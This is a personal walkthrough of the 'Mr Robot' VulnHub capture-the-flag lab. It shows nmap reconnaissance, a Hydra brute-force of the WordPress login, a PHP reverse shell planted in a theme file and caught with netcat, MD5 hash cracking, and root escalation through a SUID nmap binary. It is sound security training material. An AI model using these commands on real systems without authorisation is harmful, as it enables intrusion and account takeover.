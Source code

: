 # Mr Robot CTF Walkthrough

Step 1: Setting Up the Lab
1. Downloaded & Imported the VM

    I got the .ova file from VulnHub.

    Imported it into VirtualBox (File → Import Appliance).

    Started the VM—it booted into a weird initramfs screen (looked like a Linux recovery shell).

2. Found the Machine’s IP

Since I didn’t know the IP, I ran this from my Kali Linux:

    sudo netdiscover -r 192.168.1.0/24

(I replaced 192.168.1.0/24 with my actual network range.)

Found it! → 192.168.1.105

Step 2: Exploring the Website
1. Basic Nmap Scan

I ran:

    nmap -sV -A -T4 192.168.1.105

Results:

    Port 80 (HTTP): Apache web server.

    Port 443 (HTTPS): Also Apache.

    SSH (Port 22): Closed.

2. Checked the Webpage

I opened http://192.168.1.105 and saw a Mr. Robot-themed site.
3. Looked at robots.txt

I visited http://192.168.1.105/robots.txt and found:

User-agent: *
Disallow: /fsocity.dic  
Disallow: /key-1-of-3.txt  

Jackpot!

    Downloaded key-1-of-3.txt → First flag! 🚩

    Downloaded fsocity.dic → Looked like a password wordlist.

Step 3: Hacking WordPress
1. Found the WordPress Login Page

I saw /wp-login.php and tried default credentials (admin:admin)—no luck.
2. Cracked the Password

Since I had fsocity.dic, I used Hydra to brute-force:

    hydra -l elliot -P fsocity.dic 192.168.1.105 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -V

After a few minutes, I got:
[80][http-post-form] host: 192.168.1.105 login: elliot password: ER28-0652
3. Logged In & Uploaded a Shell

    Went to Appearance → Theme Editor.

    Replaced 404.php with a PHP reverse shell (from PentestMonkey).

    Started a listener:    

    nc -lvnp 4444

    Visited http://192.168.1.105/wp-content/themes/twentyfifteen/404.php → Got a shell!

 Step 4: Privilege Escalation
1. Stabilized the Shell

The shell was unstable, so I upgraded it:

    python -c 'import pty; pty.spawn("/bin/bash")'

2. Found the Second Flag

I checked /home/robot:

    cd /home/robot
    ls -la

    key-2-of-3.txt → Couldn’t read it (permission denied).

    password.raw-md5 → Contained a hash!

Cracked the hash with John:

    john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5

Got the password: abcdefghijklmnopqrstuvwxyz (So much efforts for this )

Switched to robot user:

    su robot

Read the second flag! 
3. Became Root

I checked for SUID binaries:

    find / -perm -4000 2>/dev/null

Found /usr/local/bin/nmap with SUID!

Escalated to root using nmap interactive mode:

    nmap --interactive
    !sh

Root access done

Grabbed the final flag:


    cat /root/key-3-of-3.txt

 Conclusion

 Flag 1: /key-1-of-3.txt (easy find in robots.txt).
 Flag 2: /home/robot/key-2-of-3.txt (cracked the hash).
 Flag 3: /root/key-3-of-3.txt (SUID escalation).
